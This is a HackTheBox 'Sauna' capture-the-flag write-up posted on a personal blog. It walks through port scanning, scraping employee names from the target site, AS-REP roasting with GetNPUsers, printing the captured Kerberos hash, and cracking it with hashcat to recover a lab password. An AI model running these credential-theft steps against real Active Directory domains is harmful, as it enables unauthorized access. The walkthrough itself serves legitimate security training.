

repository: gmrvh/blog · page: htb/sauna/index.html · generator: mkdocs

# Sauna - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  tcpwrapped
```

### Domain Information
From the scan results, I identified domain information:
```
NetBIOS computer name: SAUNA
NetBIOS domain name: EGOTISTICALBANK
DNS domain: EGOTISTICAL-BANK.LOCAL
FQDN: SAUNA.EGOTISTICAL-BANK.LOCAL
```

### Web Enumeration
I examined the website running on port 80 and found an "About Us" page with employee information. This could be valuable for username enumeration:
```bash
curl -s http://10.129.95.180/about.html | grep -i "team"
```

I used cewl to generate a wordlist from the website content:
```bash
cewl http://10.129.95.180/ -w website_words.txt
```

## Gaining Initial Access

### AS-REP Roasting
First, I attempted AS-REP Roasting using potential usernames generated from the website:
```bash
GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request
```

This initially returned no results, so I created a more targeted list based on employee names found on the "About Us" page, following common username formats:
```
fsmith
hsmith
scoins
ferguss
fergs
fsmit
hsmit
```

Running the AS-REP Roasting attack again, I successfully obtained a hash for user fsmith:
```bash
GetNPUsers.py egotistical-bank.local/ -usersfile employee_names.txt -request
```

This yielded a Kerberos AS-REP hash:
```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:1e39a1ecae838d452543f116f6f67fb0$241a512a4b745a997f5ec28957ec15ddd05f7d18f942ec3d522a35fb4e34c5752e0a2f13f6dd88ef5d0d231347f999a443209725b47f1985a3e48aabfde7458cac7cf16d9e89277abdcffd22496076ad228b68caba67a872ad4d460c4ecfa90d02f4ba8175f5f2fec4893216b80f23830723a474577b864c6bb3f8993cc0ddb2187c5e1459712ae1b5e3ff636d00cc7e5c0f164672277447c14dd6f6149c28e9ae04ce12316173f44f16fde22dc903ac6dc9260c1dab25b3362b02388080fb2b528cd83fcd9052c0fea0047687cc6dc0d0fdc42e581c2a1609d513a38d589cf8e1aeba3a1fb222e09bd09d2bf904778dbaba0a1c8dca28eaeadc8d21e9e5ae8a
```

### Password Cracking
I saved the hash to a file and used hashcat to crack it:
```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

This revealed the password:
- **Username**: fsmith
- **Password**: Thestrokes23
